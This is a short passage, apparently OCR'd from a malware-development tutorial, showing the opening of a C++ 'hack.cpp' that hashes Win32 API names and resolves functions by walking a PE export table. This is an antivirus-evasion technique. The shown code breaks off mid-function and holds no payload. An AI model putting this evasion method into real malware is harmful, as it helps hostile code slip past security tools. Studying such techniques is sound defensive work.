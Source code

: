 ![av](./images/45/2022-03-25_11-10.png){width="80%"}    

The full source code of our malware is:    

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
```